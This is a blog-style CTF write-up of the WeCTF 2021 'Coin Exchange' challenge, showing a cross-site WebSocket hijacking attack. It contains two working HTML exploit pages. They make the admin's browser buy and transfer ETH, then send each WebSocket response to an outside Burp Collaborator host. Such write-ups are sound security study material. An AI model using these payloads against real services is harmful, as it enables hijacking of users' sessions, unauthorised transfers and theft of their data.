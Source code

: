 ```yaml
---
title: WeCTF 2021 - Coin Exchange
layout: post 
date: '2021-06-21 11:00:00'
description: solving a CSWSH vuln chall
image: 'https://i.imgur.com/amEYCG6.jpg'
tags:
- web
- ctf
- infosec
- writeup
author: k4l1
---
```


Hi everyone! C:

After lot of months I'm posting here again! I played the WeCTF 2021(a only-web CTF) with my team, we got #25/574 place and the challs were awesome. I'm finally studying web vulns and now had a chance to apply that.


## Description

62 solves / 379 pts

>Shou lost a few thousand bucks on cryptocurrency. So, he decided to fake a crypto exchange and steal all the money of the users next week. Try break Shou's evil plan by stealing all his money.

>This challenge requires user interaction. Send your payload to uv.ctf.so Flag is sent when you have $5000 in the account.

>Hint: Search CSRF if you don't know what that is.

>Host 1 (San Francisco): coin.sf.ctf.so:4001
>Host 2 (Los Angeles): coin.la.ctf.so:4001
>Host 3 (New York): coin.ny.ctf.so:4001
>Host 4 (Singapore): coin.sg.ctf.so:4001
>
>Source Code: [here]([https://](https://cdn.discordapp.com/attachments/855858525087334421/855858633715351597/coin-exchange.zip))

## Coin Exchange Website

#### Login

![](https://i.imgur.com/hjm5Z54.png)

#### Exchange

![](https://i.imgur.com/vEFD7Jn.png)

#### Ranking

![](https://i.imgur.com/8t3YfA0.png)

#### Transfer

![](https://i.imgur.com/YzK1SR7.png)


## Solution

This site use Websocket instead http requests and isn't protected to CSRF, so basically we need send to admin a malicious website with CSWSH(Cross-site websocket hijacking) to transfer eth to your account.

Intercepting with BurpSuite and seeing on `WebSockets history` we can read the traffic:

![](https://i.imgur.com/GwnLdLz.png)


Checking the source, we can see how the connection is created:


```js
function start_socket(){
    socket = new WebSocket("ws://" + document.URL.substr(7).split('/')[0], "ethexchange-api");
    socket.onopen = function(e) {
        routine = setInterval(routine_update, 1000)
    };
    socket.onmessage = function(event) {
        .
        .
        .
    }
}
```

On second line we can see that it use a custom protocol called `ethexchange-api`, this will be important to connect.

For send a page to admin, I'm using `ngrok` with python `SimpleHTTPServer` and receiving the response with `Burp Collaborator`.

Let's try to code a xpl to send to admin...

```html
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending this to admin...

![](https://i.imgur.com/h8o4Fkp.png)

Badly, the admin don't have Eth, so we need to buy with his money(on Ranking Page show that the admin had `$1000000000000`).

```js
<!DOCTYPE html>
<html>
  <body>
    <script>
      var transfer = {"type":"transfer","content":{"amount":"3","to_token":"34450f23a163a464c4b852331ac7fe0f0f531a136f6707c02f4248ebf9f98d7c"}}
      var buy = {"type":"buy","content":{"amount":"7000"}}

      const socket = new WebSocket('ws://coin.ny.ctf.so:4001/', "ethexchange-api");

      socket.onopen = function(e) {
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(buy));
        socket.send(JSON.stringify(transfer));
      }
      socket.onmessage = function(event) {
        fetch("http://81700rdv5a7etyhroodd98fodfj57u.burpcollaborator.net", {method: "POST", mode: 'cors', body: event.data}).then(response => {console.log(response.json())});
      }
    </script>
  </body>
</html>
```

Sending again to admin, we can see that we transferred 3 eth after buy it 3 times with $7000.
![](https://i.imgur.com/XEa4u0p.png)

Intercepting again after got more than $5000:

![](https://i.imgur.com/aYLN8L9.png)

We got the flag: `we{1e1b12c8-ed85-4b2b-879d-7475febe6281@d0g3&sh1b_th3_BEST!}`


## References

* [CSWSH vuln chall](https://kalinathalie.github.io/web-chall-coin-exchange-wectf2021/)